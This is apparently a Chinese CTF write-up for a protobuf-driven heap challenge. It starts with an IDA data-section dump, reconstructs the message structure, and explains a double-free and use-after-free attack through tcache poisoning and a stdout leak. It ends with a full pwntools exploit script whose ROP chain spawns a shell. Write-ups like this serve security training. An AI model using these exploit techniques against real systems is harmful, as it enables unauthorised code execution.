.data.rel.ro:000000000000BBAA                 db    0
.data.rel.ro:000000000000BBAB                 db    0
.data.rel.ro:000000000000BBAC                 db    0
.data.rel.ro:000000000000BBAD                 db    0
.data.rel.ro:000000000000BBAE                 db    0
.data.rel.ro:000000000000BBAF                 db    0
.data.rel.ro:000000000000BBB0                 db    0
.data.rel.ro:000000000000BBB1                 db    0
.data.rel.ro:000000000000BBB2                 db    0
.data.rel.ro:000000000000BBB3                 db    0
.data.rel.ro:000000000000BBB4                 db    0
.data.rel.ro:000000000000BBB5                 db    0
.data.rel.ro:000000000000BBB6                 db    0
.data.rel.ro:000000000000BBB7                 db    0
.data.rel.ro:000000000000BBB8                 dq offset aWhatsize     ; "whatsize"
.data.rel.ro:000000000000BBC0                 db    4
.data.rel.ro:000000000000BBC1                 db    0
.data.rel.ro:000000000000BBC2                 db    0
.data.rel.ro:000000000000BBC3                 db    0
.data.rel.ro:000000000000BBC4                 db    3
.data.rel.ro:000000000000BBC5                 db    0
.data.rel.ro:000000000000BBC6                 db    0
.data.rel.ro:000000000000BBC7                 db    0
.data.rel.ro:000000000000BBC8                 db    4
.data.rel.ro:000000000000BBC9                 db    0
.data.rel.ro:000000000000BBCA                 db    0
.data.rel.ro:000000000000BBCB                 db    0
.data.rel.ro:000000000000BBCC                 db    0
.data.rel.ro:000000000000BBCD                 db    0
.data.rel.ro:000000000000BBCE                 db    0
.data.rel.ro:000000000000BBCF                 db    0
.data.rel.ro:000000000000BBD0                 db  38h ; 8
.data.rel.ro:000000000000BBD1                 db    0
.data.rel.ro:000000000000BBD2                 db    0
.data.rel.ro:000000000000BBD3                 db    0
.data.rel.ro:000000000000BBD4                 db    0
.data.rel.ro:000000000000BBD5                 db    0
.data.rel.ro:000000000000BBD6                 db    0
.data.rel.ro:000000000000BBD7                 db    0
.data.rel.ro:000000000000BBD8                 db    0
.data.rel.ro:000000000000BBD9                 db    0
.data.rel.ro:000000000000BBDA                 db    0
.data.rel.ro:000000000000BBDB                 db    0
.data.rel.ro:000000000000BBDC                 db    0
.data.rel.ro:000000000000BBDD                 db    0
.data.rel.ro:000000000000BBDE                 db    0
.data.rel.ro:000000000000BBDF                 db    0
.data.rel.ro:000000000000BBE0                 db    0
.data.rel.ro:000000000000BBE1                 db    0
.data.rel.ro:000000000000BBE2                 db    0
.data.rel.ro:000000000000BBE3                 db    0
.data.rel.ro:000000000000BBE4                 db    0
.data.rel.ro:000000000000BBE5                 db    0
.data.rel.ro:000000000000BBE6                 db    0
.data.rel.ro:000000000000BBE7                 db    0
.data.rel.ro:000000000000BBE8                 db    0
.data.rel.ro:000000000000BBE9                 db    0
.data.rel.ro:000000000000BBEA                 db    0
.data.rel.ro:000000000000BBEB                 db    0
.data.rel.ro:000000000000BBEC                 db    0
.data.rel.ro:000000000000BBED                 db    0
.data.rel.ro:000000000000BBEE                 db    0
.data.rel.ro:000000000000BBEF                 db    0
.data.rel.ro:000000000000BBF0                 db    0
.data.rel.ro:000000000000BBF1                 db    0
.data.rel.ro:000000000000BBF2                 db    0
.data.rel.ro:000000000000BBF3                 db    0
.data.rel.ro:000000000000BBF4                 db    0
.data.rel.ro:000000000000BBF5                 db    0
.data.rel.ro:000000000000BBF6                 db    0
.data.rel.ro:000000000000BBF7                 db    0
.data.rel.ro:000000000000BBF8                 db    0
.data.rel.ro:000000000000BBF9                 db    0
.data.rel.ro:000000000000BBFA                 db    0
.data.rel.ro:000000000000BBFB                 db    0
.data.rel.ro:000000000000BBFC                 db    0
.data.rel.ro:000000000000BBFD                 db    0
.data.rel.ro:000000000000BBFE                 db    0
.data.rel.ro:000000000000BBFF                 db    0
.data.rel.ro:000000000000BC00                 dq offset aWhatsthis    ; "whatsthis"
.data.rel.ro:000000000000BC08                 db    5
.data.rel.ro:000000000000BC09                 db    0
.data.rel.ro:000000000000BC0A                 db    0
.data.rel.ro:000000000000BC0B                 db    0
.data.rel.ro:000000000000BC0C                 db    3
.data.rel.ro:000000000000BC0D                 db    0
.data.rel.ro:000000000000BC0E                 db    0
.data.rel.ro:000000000000BC0F                 db    0
.data.rel.ro:000000000000BC10                 db    6
.data.rel.ro:000000000000BC11                 db    0
.data.rel.ro:000000000000BC12                 db    0
.data.rel.ro:000000000000BC13                 db    0
.data.rel.ro:000000000000BC14                 db    0
.data.rel.ro:000000000000BC15                 db    0
.data.rel.ro:000000000000BC16                 db    0
.data.rel.ro:000000000000BC17                 db    0
.data.rel.ro:000000000000BC18                 db  40h ; @
.data.rel.ro:000000000000BC19                 db    0
.data.rel.ro:000000000000BC1A                 db    0
.data.rel.ro:000000000000BC1B                 db    0
.data.rel.ro:000000000000BC1C                 db    0
.data.rel.ro:000000000000BC1D                 db    0
.data.rel.ro:000000000000BC1E                 db    0
.data.rel.ro:000000000000BC1F                 db    0
.data.rel.ro:000000000000BC20                 db    0
.data.rel.ro:000000000000BC21                 db    0
.data.rel.ro:000000000000BC22                 db    0
.data.rel.ro:000000000000BC23                 db    0
.data.rel.ro:000000000000BC24                 db    0
.data.rel.ro:000000000000BC25                 db    0
.data.rel.ro:000000000000BC26                 db    0
.data.rel.ro:000000000000BC27                 db    0
.data.rel.ro:000000000000BC28                 db    0
.data.rel.ro:000000000000BC29                 db    0
.data.rel.ro:000000000000BC2A                 db    0
.data.rel.ro:000000000000BC2B                 db    0
.data.rel.ro:000000000000BC2C                 db    0
.data.rel.ro:000000000000BC2D                 db    0
.data.rel.ro:000000000000BC2E                 db    0
.data.rel.ro:000000000000BC2F                 db    0
.data.rel.ro:000000000000BC30                 db    0
.data.rel.ro:000000000000BC31                 db    0
.data.rel.ro:000000000000BC32                 db    0
.data.rel.ro:000000000000BC33                 db    0
.data.rel.ro:000000000000BC34                 db    0
.data.rel.ro:000000000000BC35                 db    0
.data.rel.ro:000000000000BC36                 db    0
.data.rel.ro:000000000000BC37                 db    0
.data.rel.ro:000000000000BC38                 db    0
.data.rel.ro:000000000000BC39                 db    0
.data.rel.ro:000000000000BC3A                 db    0
.data.rel.ro:000000000000BC3B                 db    0
.data.rel.ro:000000000000BC3C                 db    0
.data.rel.ro:000000000000BC3D                 db    0
.data.rel.ro:000000000000BC3E                 db    0
.data.rel.ro:000000000000BC3F                 db    0
.data.rel.ro:000000000000BC40                 db    0
.data.rel.ro:000000000000BC41                 db    0
.data.rel.ro:000000000000BC42                 db    0
.data.rel.ro:000000000000BC43                 db    0
.data.rel.ro:000000000000BC44                 db    0
.data.rel.ro:000000000000BC45                 db    0
.data.rel.ro:000000000000BC46                 db    0
.data.rel.ro:000000000000BC47                 db    0
.data.rel.ro:000000000000BC48                 db    0
.data.rel.ro:000000000000BC49                 db    0
.data.rel.ro:000000000000BC4A                 db    0
.data.rel.ro:000000000000BC4B                 db    0
.data.rel.ro:000000000000BC4C                 db    0
.data.rel.ro:000000000000BC4D                 db    0
.data.rel.ro:000000000000BC4E                 db    0
.data.rel.ro:000000000000BC4F                 db    0
.data.rel.ro:000000000000BC50                 db    0
.data.rel.ro:000000000000BC51                 db    0
.data.rel.ro:000000000000BC52                 db    0
.data.rel.ro:000000000000BC53                 db    0
.data.rel.ro:000000000000BC54                 db    0
.data.rel.ro:000000000000BC55                 db    0
.data.rel.ro:000000000000BC56                 db    0
.data.rel.ro:000000000000BC57                 db    0
.data.rel.ro:000000000000BC58                 db    0
.data.rel.ro:000000000000BC59                 db    0
.data.rel.ro:000000000000BC5A                 db    0
.data.rel.ro:000000000000BC5B                 db    0
.data.rel.ro:000000000000BC5C                 db    0
.data.rel.ro:000000000000BC5D                 db    0
.data.rel.ro:000000000000BC5E                 db    0
.data.rel.ro:000000000000BC5F                 db    0
```


## 还原结构
根据 ProtobufCMessageDescriptor 的 name 字段，可知这条消息名为 `heybro`。再根据 ProtobufCFieldDescriptor 中的 `const char		*name;
uint32_t		id;
ProtobufCLabel		label;
ProtobufCType		type;` 得到每个字段的 name、id、label 和 type。

```c
message heybro{
    bytes whatcon = 1;
    sint64 whattodo = 2;
    sint64 whatidx = 3;
    sint64 whatsize = 4;
    uint32 whatsthis = 5;
}
```

```c

struct  Heybro
{
  ProtobufCMessage base; //24个字节
  ProtobufCBinaryData whatcon;
  int64_t whattodo;
  int64_t whatidx;
  int64_t whatsize;
  uint32_t whatsthis;
};

struct ProtobufCMessage {
	/** The descriptor for this message type. */
	const ProtobufCMessageDescriptor	*descriptor;
	/** The number of elements in `unknown_fields`. */
	unsigned				n_unknown_fields;
	/** The fields that weren't recognized by the parser. */
	ProtobufCMessageUnknownField		*unknown_fields;
};

struct ProtobufCBinaryData {
	size_t	len;        /**< Number of bytes in the `data` field. */
	uint8_t	*data;      /**< Data bytes. */
};

  sub_1934(
      *(_QWORD *)(heybro + 24),
      *(_QWORD *)(heybro + 32),
      *(_QWORD *)(heybro + 40),
      *(_QWORD *)(heybro + 48),
      *(_QWORD *)(heybro + 56),
      *(unsigned int *)(heybro + 64));
      
bytes类型，转化为c语言结构时会变成一个结构体，里面存放长度和内容指针。IDA由于没有内置相关结构信息，将其当做八字节数组进行解析，因此会产生一个有6个记录的错觉，实际上后两个参数是同一个记录内置的两条记录。
```

## 思路
add 会检查索引，然后为该索引分配一个固定大小为 0x40 的 chunk，并把 whatcon 的内容复制进去。delete 可以使用 10 次，会检查索引范围以及对应索引的 chunk 是否为 NULL，但 free 后没有清空指针。show 可以使用 3 次，也会检查索引范围以及对应索引的 chunk 是否为 NULL；当 whatsthis == '\xFF' 和 whatsize == 48 都不满足时，输出 chunk 内容。
存在 double free 和释放后查看的问题。
1. add 时会先分配一个 0x50 的 chunk，以及一个与 data 等长的 chunk，两者都从 unsorted bin 中取出。内容先写入与 data 等长的 chunk，最后由 memcpy 将 data chunk 的内容写入分配好的 0x40 chunk。这里可以利用残留的 libc 数据泄露地址。


2. 泄露堆地址：直接泄露没有用，因为 memcpy 的行为以及必须写入内容的要求，会把残留的堆地址覆盖掉。直接释放进 tcache 即可泄露。

3. 构造任意写。但 delete 恰好只允许使用 10 次，因此只能获得一次任意写。不过此时 tcache bin 中还有很多其他 chunk，可以写入 tcache bin 来实现多次任意写。要泄露栈地址，可以任意写 stdout，再泄露栈地址。

 
 IO_2_1_stdout：_flags = 0xFBAD1800，然后把后面的三个 read 参数设为 0，write_base 与 write_ptr 之间的范围就是我们要输出的地址范围。
 
4. malloc 分配到 tcache bin 上，再次修改 tcache bin，使后续分配能够落到栈上。


## 利用脚本

```python
from pwn import *
import devicemsg_pb2
#context.log_level='debug'
context.arch='amd64'
context.os='linux'


def add(idx,con):
    bro=devicemsg_pb2.heybro()
    bro.whatcon=con
    bro.whattodo=1
    bro.whatidx=idx
    p.sendafter(b'WHAT DO YOU WANT?\n',bro.SerializeToString())

def delete(idx):
    bro=devicemsg_pb2.heybro()
    bro.whattodo=2
    bro.whatidx=idx
    p.sendafter(b'WHAT DO YOU WANT?\n',bro.SerializeToString())

def magic(idx,thiss,size,con):
    bro=devicemsg_pb2.heybro()
    bro.whattodo=3
    bro.whatidx=idx
    bro.whatsthis=thiss
    bro.whatsize=size
    bro.whatcon=con
    p.sendafter(b'WHAT DO YOU WANT?\n',bro.SerializeToString())

def exitt():
    bro=devicemsg_pb2.heybro()
    bro.whattodo=4
    p.sendafter(b'WHAT DO YOU WANT?\n',bro.SerializeToString())


#p=remote('8.147.129.121',15268)
p=process('./pwn')
libc=ELF('./libc.so.6')

add(0,b'a')

add(1,b'a')

magic(0,0,0,b'')
p.recvuntil(b'Content:')
libcbase=u64(p.recvuntil(b'\x7f').ljust(8,b'\x00'))-0x21ac61
print(hex(libcbase))

for i in range(9):
    add(i,b'a')

for i in range(8):
    delete(i)

magic(0,0,0,b'')
p.recvuntil(b'Content:')
heap=u64(p.recvline()[:-1].ljust(8,b'\x00'))+1
print(hex(heap))


delete(8)

delete(7)


for i in range(7):
    add(i,b'a')

pause()


add(7,p64(((heap<<12)-0x5000+0xe0)^heap))      
add(7,b'a')
add(7,b'a')
add(7,b'\x00'*8+p64(libcbase+0x21b780-0x90)+p64(0)+p64(((heap<<12)-0x5000+0xe0)))
payload=b'\x00'*0x90+p64(0xfbad1887)+p64(0)*3+p64(libcbase+0x222200)+p64(libcbase+0x222208) #写stderr
add(7,payload)
stack=u64(p.recvuntil(b'\x7f').ljust(8,b'\x00'))
add(7,p64(0)+p64(stack-0x168)+b'\x00'*0xd0)# 再次修改tcachebin
#gdb.attach(p)

rdi=libcbase+0x2a3e5
bin_sh=libcbase+next(libc.search(b'/bin/sh\x00'))
system=libcbase+libc.symbols['system']
ret=libcbase+0x29139
rop=b'a'*8+p64(ret)+p64(rdi)+p64(bin_sh)+p64(system)
add(7,rop.ljust(0xc0,b'\x00'))
p.interactive()
```



